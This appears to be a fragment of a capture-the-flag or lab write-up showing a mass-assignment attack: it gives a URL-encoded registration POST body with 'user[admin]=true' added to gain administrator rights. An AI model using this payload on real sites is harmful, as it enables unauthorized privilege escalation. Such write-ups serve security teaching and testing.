 Add ```user[admin]=true``` to the POST parameters of the register request:
```
user%5Busername%5D=delilled2&user%5Bpassword%5D=test&user%5Badmin%5D=true&submit=Submit+Query
```
